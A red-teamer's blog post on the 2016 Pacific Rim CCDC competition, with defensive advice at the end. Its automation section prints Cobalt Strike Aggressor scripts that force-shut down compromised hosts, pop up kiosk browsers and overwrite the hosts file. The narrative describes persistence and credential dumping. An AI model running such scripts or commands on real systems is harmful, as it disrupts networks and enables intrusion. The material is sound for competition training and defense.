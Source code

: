 ```yaml
---
layout: post
title: Red Teaming for Pacific Rim CCDC 2016
summary: Preparation, Automation, Aggressor Scripts, and thoughts about 2016's Pacific Rim CCDC. 
---
```


Six weeks ago I had the opportunity to Red Team for [Pacific Rim CCDC](https://www.prccdc.org/). I love doing this competition because it gives me a chance to do things one would never be allowed to do on a real network and it forces me think about a different set of problems than a pentest or red team engagement. In this post I will discuss my thoughts and experiences before, during, and after this year's competition. 

# Preparation

[Last year]({{site.baseurl}}/2015-04-15-how-i-prepared-to-red-team-at-prccdc-2015/) I made a few goals for myself, mostly centered around preparation. About a month before the competition some friends and I collaborated to prepare for the competition.

## Operations Plan
The first piece of preparation is making an Operations Plan. The Ops Plan is a runbook of sorts containing all of the functionality we want to be able to execute during the competition. For each action or attack we listed out copy/paste commands, workflows, and/or tool modules. The goal is to minimize the amount of searching required during the competition. 

I've uploaded a sample from our Ops Plan to GitHub [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/OpsPlan2016.txt). Shoutout to [@sw4mp_f0x](https://twitter.com/sw4mp_f0x), [@beyondnegative](https://twitter.com/beyondnegative), [@ahayden](https://twitter.com/ahayden), and [@primarytyler](https://twitter.com/primarytyler) for working on prep with me.


## Automation
Once we had a foundational Ops Plan in place, the next step was to automate as many of the functions as possible. The competition is frenetic from start to finish, so the ability to execute attacks quickly is critical. The primary attack platform I planned on using was [Cobalt Strike](https://www.cobaltstrike.com/), with [Powershell Empire](http://www.powershellempire.com/) as a secondary platform. 

Cobalt Strike offers an extremely powerful built-in scripting language: [Aggressor](https://www.cobaltstrike.com/help-scripting). Versions of Cobalt Strike prior to 3.0 used [Cortana](http://www.advancedpentest.com/help-scripting-cortana) script, which is incompatible with Aggressor. This was my first foray into using Aggressor script and I am very happy that I dove in. Aggressor scripts provide the ability to extend Cobalt Strike's functionality and GUI with built-in commands as well as using the [Sleep](http://sleep.dashnine.org/manual/) language directly. Since Sleep allows Java objects to be incorporated into scripts, the usage options are nearly limitless.

### Shutdown
After reading Raphael Mudge's resources on Aggressor and Sleep (linked below), I started easy with a CCDC equivalent of *Hello World*: shutting down all selected boxes. 

```perl
popup beacon_bottom {
	menu "Lulz" {
		item "Shutdown Host" {
			prompt_confirm("Are you SURE you want to bounce the box(es)?", "Confirm", lambda({
				blog(@ids,"shutting down");
				bshell(@ids, "shutdown /s /f /t 00 -d up:125:1");
			}, @ids => $1));
		}
	}
}
```
Lines 1-3 configure the GUI, placing the context menu (right click) item *Shutdown Host* under a parent menu of *Lulz*. Lines 4-7 prompt the user for confirmation to shut down all hosts. If the user selects OK, all hosts are issued the shell command `shutdown /s /f /t 00 -d up:125:1`.

### Internet Explorer Popup
Last year we launched Internet Explorer in kiosk mode to Justin Bieber's homepage to spread some Bieber Fever to the Blue Teams. For this year, I wanted to automate this and be able to quickly change the URL Internet Explorer opens.

```perl
item "IE Kiosk Popup" {
		prompt_text("What site do you want to pop up?", "https://google.com", lambda({
			binput(@ids,"C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
			bshell(@ids, "C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
		}, @ids => $1));
}
```
To include this within the *Lulz* context menu parent, simply insert this code before the closing menu curly bracket, like this:

```perl
popup beacon_bottom {
	menu "Lulz" {		
		item "IE Kiosk Popup" { 
			CODE GOES HERE
		}
		item "Shutdown Host" { 
			CODE GOES HERE
		}
	}
}
```

### Host File Stomp
Blue Teams and Red Teams alike use the internet during the competition, researching how to remediate vulnerabilities, looking up that default credential for the router, the list goes on. The difference is that ideally the Blue Team's hosts are owned in multiple ways, so why not use that to our advantage to slow the research efforts? This script stomps the target(s) host file with a selected file and clears the DNS cache.

```perl
		item "Replace Host File" {
			prompt_file_open("Choose a file to replace the current host file:", "hosts.txt", false, lambda({
				bcd(@ids,"c:\\windows\\system32\\drivers\\etc");
				brm(@ids,"hosts");
				blog(@ids,"Uploading file $1 to c:\\windows\\system32\\drivers\\etc\\hosts");
				bupload(@ids,$1);
				bshell(@ids, "ipconfig /flushdns");
				blog(@ids,"File uploaded and DNS flushed. Done!");
			}, @ids => $1));
		}
```

Line 2 prompts the user for a file. Once selected, the file is assigned the `$1` variable and the lambda function is evaluated. The lambda function is used to evaluate the lines within the parenthesis inline, lines 4 - 9 in this case. Those lines handle the removal of the current host file, upload of the selected file, and flushing of the hosts' DNS. 

### Script Files

I've uploaded these and a couple other scripts to my GitHub repo for [Aggressor scripts](https://github.com/bluscreenofjeff/AggressorScripts). These examples hopefully provide enough info to get your mind turning about other devious things you can cook up before next year's competition.

Having the ability to write Aggressor scripts to automate specific Red Team functions during the competition can be a real lifesaver. 

### Aggressor Script Resources:

* [Aggressor Script Intro](https://www.cobaltstrike.com/help-scripting)
* [Aggressor Script Documentation](https://www.cobaltstrike.com/aggressor-script/index.html)
* [My Cobalt Strike Scripts from NECCDC -- Raphael Mudge](http://blog.cobaltstrike.com/2016/03/16/my-cobalt-strike-scripts-from-neccdc/)
* [Cobalt Strike 3.1 - Scripting Beacons -- Raphael Mudge](http://blog.cobaltstrike.com/2015/12/02/cobalt-strike-3-1-scripting-beacons/)
* [Real-Time Feed of Red Team Activity -- Raphael Mudge](http://blog.cobaltstrike.com/2016/01/13/real-time-feed-of-red-team-activity/)
* [Sleep Manual](http://sleep.dashnine.org/manual/)


# The Competition

This year my friend [@sw4mp_f0x](https://twitter.com/sw4mp_f0x) and I were on the Windows Meta Team together, which means we attacked every team's Windows boxes in effort to spread equal *love* to everyone. We both have competed together before, but not against every team; it was an exciting challenge. 

As soon as the competition started there was a mad dash for all teams to find initial access points. To do this we made up IP lists with all hosts for all teams and configured different initial access scripts (such as in Metasploit) to be ready for when new credentials were received. Nothing beats seeing those first few Beacons come rolling in at the start of the day. Once access started getting established it was critical to drop persistence as quickly as possible on as many hosts as possible. We used primarily scripted Aggressor to drop persistence. We came prepared with a few of these scripts but ended up making a few new ones on the fly and at the hotel at night.

With a baseline established, the name of the game was credential management. We needed to keep the credentials fresh and ready to go. With 12 teams and dozens of users per domain, this was not an easy task. In an environment like this (see: not trying to be quiet at all), I like to err on the side of dumping credentials and hashes now just in case I need them later. So once I compromised a domain controller a hashdump wasn't too far behind. You can imagine how Cobalt Strike's credential store looked. While this didn't pose an issue for some hosts, there were hosts present on all teams that shared IP addresses. This meant that any given credential on one of those hosts could belong to one or 12 different teams. Not ideal. 

Overall being on the Windows Meta Team was a challenge and a blast. I came away from the competition having learned some new tricks (like running *explorer.exe* on a sticky keys cmd prompt to use the GUI) and more ideas for both next year's competition and real life tests.

# After the Ruckus

The Blue Team debrief is particularly fun. Throughout the competition I find myself wondering what the Blue Team thinks of a particular attack or annoyance. Wondering if the defenders even know which systems we've compromised. The debrief is the time to answer a lot of those questions. I was able to speak with a few teams during the debrief, which was great.

Here are some of the key points and suggestions I made to Blue Teams:

* Become familiar with Red Team tactics. Knowing the pathways an attacker may try to get into your network will help you block those paths.
* Automate as much as you can. If the Red Team has a script to break something, have a script to fix it. Make sure you follow the rules about not using private scripts.
* Change passwords FREQUENTLY. There were accounts whose credentials didn't change once throughout the competition.
* Disable any account that's not needed or off-limits. If you aren't using built-in accounts, disable them all.
* Remove admin rights from any user or group that doesn't explicitly require that access. Given the size of the Blue Team's network, it may make sense to remove/disable Domain Admin rights entirely on the domain and explicitly assign rights on a per-host basis. For example, perhaps the Blue Team decides to disable all administrative groups in the domain and rely on local accounts with rotating unique passwords per-host. 
* Audit admin rights, account statuses, and new accounts (local and domain) throughout the competition.

# Closing Thoughts

The CCDC competition is a lot of fun. It's thrilling to be able to try attacks or annoy users in ways that are not fit for a production network. Doing that exercises a different part of your brain and hopefully conjure up some ideas that are suitable for real world testing. I can't wait for next year.
